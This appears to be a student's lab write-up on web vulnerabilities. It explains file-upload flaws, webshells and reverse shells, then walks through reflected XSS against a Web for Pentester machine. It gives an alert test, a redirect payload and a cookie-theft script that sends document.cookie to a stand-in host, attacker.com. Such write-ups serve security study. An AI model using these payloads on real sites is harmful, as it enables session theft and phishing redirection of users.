


# AEC6 - XSS Vulnerability

### What does a File Upload vulnerability refer to?

When we talk about a **File Upload** vulnerability, we refer to a situation where a web application allows users to upload files but lacks sufficient controls or validations on what types of files can be uploaded. This can be a serious issue because an attacker could upload a malicious file, such as a **webshell**, which could execute code on the server. Essentially, if the system is not properly configured to control what can be uploaded, an attacker can exploit it to execute scripts that compromise the server.

### What are the steps to exploit this type of vulnerability?

Exploiting a **File Upload** vulnerability is not very complicated if you know what you're doing. These are the general steps an attacker would follow:

1. **Find the file upload point**: First, the attacker needs to identify where in the application files can be uploaded. This could be a form or an API. Sometimes, this is found simply by navigating the application and looking for forms or points where something can be uploaded.
2. **Bypass file type filters**: If the application has filters to ensure only "safe" files (e.g., images) are uploaded, an attacker may try to bypass these filters. This could involve changing the file extension (e.g., from `.php` to `.jpg`) or manipulating the file's MIME type so the system accepts it as an "allowed" file, even though it is not.
3. **Upload the malicious file**: Once the attacker bypasses the filters, they upload the file. This file could be a malicious script (like PHP) that, if the server configuration allows, could be executed directly from the server.
4. **Execute the code**: If the uploaded file is a **webshell**, the attacker could access it through a browser and start executing commands directly on the server. This could give them control over the system.
5. **Gain control**: From here, the attacker can execute commands on the server, steal data, modify files, or, in the worst-case scenario, escalate privileges and further compromise the infrastructure.

### What types of filters are typically implemented to prevent them?

To prevent these vulnerabilities, applications should implement several security measures:

- **MIME type validation**: Ensure that files truly match the type they claim to be. For example, it is not enough for a file to have a `.jpg` extension; its content must actually be an image.
- **Extension restrictions**: While not sufficient on its own, limiting the types of files that can be uploaded (e.g., only allowing images like `.jpg`, `.png`, etc.) is a good first step. However, it is also important to validate the content, not just the extension.
- **Disable file execution in upload directories**: The most important step is to ensure that any uploaded file cannot be executed as code. This can be achieved by properly configuring the server to prevent file execution in directories where uploaded files are stored.
- **File scanning**: Some applications use antivirus tools or security analysis programs to review files before they are stored or executed on the server.
- **File size limits**: Limiting the size of uploaded files can prevent attackers from uploading extremely large files that may hide malicious code or overload the system.

### What is a webshell? How can remote control be obtained through a reverse shell?

A **webshell** is essentially a malicious script uploaded to the server that allows an attacker to execute commands on that server, usually through a web interface. This could be a PHP file or a script in another server-side language that, when accessed, gives the attacker the ability to execute code on the compromised server. It is like the attacker has a secret door into the server through which they can control everything.

On the other hand, a **reverse shell** is a technique where, after uploading and executing the malicious file (like a webshell), the attacker gets the server to connect back to their own machine. This is done by opening a network connection where the server connects to a specific port on the attacker's system, allowing them to execute commands remotely. Essentially, it is like the attacker is taking control of the server, but instead of the server connecting to the attacker, the attacker initiates the connection from their machine. Through this shell, the attacker can do anything on the server, from reading files to executing other attacks.

# Exercise 1:

In this exercise, we will exploit a vulnerability in a web application that allows file uploads, known as a **File Upload** vulnerability. This vulnerability occurs when an application does not properly validate the files users upload, which could allow an attacker to upload a malicious file (like a PHP script) and execute code on the server. Here is how it would be done step by step.

### Start the Web for Pentester machine

The first step is to start the **Web for Pentester** machine in my testing environment. To find out which IP address I need to access from my browser, I use the `ifconfig` command in Kali Linux to obtain the IP address of the testing machine.

```bash
ifconfig
```

Here, I look for the IP address in the network interface I am using (e.g., `eth0` or `ens33`). In this case, the IP address I get is something like `172.34.54.2`. This will be the address I use to access the web application from the browser.

### Access the web application

Once I have the IP address of the machine, I open the browser in Kali Linux and type the IP address, such as `https://172.34.54.2`. This will take me to the homepage of the web application I am testing.

### Inject a basic XSS payload

To test if the website is vulnerable to **Reflected XSS**, the first thing I do is try to inject a basic payload that should trigger an alert in the browser. The simplest payload I can use is:

```html
<script>alert('XSS');</script>
```

This code is a simple JavaScript script that executes an alert with the message "XSS". What I will do is inject it into an input field on the vulnerable website.

For example, suppose I find a search field on the page, and the search URL looks something like this:

```
http://192.168.68.124/xss/example1.php?name=hacker
```

In this case, the `name` parameter seems like a good entry point to inject code. So, I modify the URL and replace the value of the `name` parameter with the XSS payload:

```
http://192.168.68.124/xss/example1.php?name=<script>alert('XSS');</script>
```



When I do this, I expect the server to **reflect** the value I put in the `name` parameter on the results page without filtering the malicious code. If the website does not properly sanitize that input, the script will execute in the browser.

### Confirm the XSS vulnerability is present

Now, I load the modified URL in my browser. If the site is vulnerable to **Reflected XSS**, I should see a pop-up window with the message **"XSS"**.

If this happens, I can confirm that the site is vulnerable to this type of attack because the code I injected executed in the browser and displayed the alert. This is evidence that the server did not properly validate the input and allowed the malicious code to execute.

At this point, I take a screenshot of the alert box to document that the attack was successful.

### Inject a malicious redirection payload

To further demonstrate this vulnerability, I will inject a **script** to **redirect** the user to a malicious website, which also shows the severity of the XSS vulnerability.

This script redirects the user to a phishing or malicious page:

```html
<script>
    window.location = "http://malicious-site.com";
</script>
```

The final URL with this payload would be:

```
http://192.168.68.124/xss/example1.php?name=<script>window.location%20=%20"http://malicious-site.com";</script>
```

### What to expect with this payload:

- **If the site is vulnerable**, the user will be automatically redirected to the malicious site, demonstrating that the attacker can control the user's navigation.

When we inject the script, upon reloading, it immediately redirects us to the malicious page.



### Inject a cookie theft payload (advanced vulnerability confirmation)

Now I will **further exploit** the vulnerability by injecting a **moderately advanced script** that steals the user's cookies and sends them to a server controlled by the attacker.

This is the **payload** we will use:

```html
<script>
    var xhttp = new XMLHttpRequest();
    xhttp.open("GET", "http://attacker.com/steal?cookie=" + document.cookie, true);
    xhttp.send();
</script>
```

The final URL with this payload would be:

```
http://192.168.68.124/xss/example1.php?name=<script>var%20xhttp%20=%20new%20XMLHttpRequest();%20xhttp.open("GET",%20"http://attacker.com/steal?cookie="%20+%20document.cookie,%20true);%20xhttp.send();</script>
```

### What to expect with this payload:

- **If the site is vulnerable** to XSS, this script will send the user's cookies to the attacker's server (in this case, **http://attacker.com/steal**).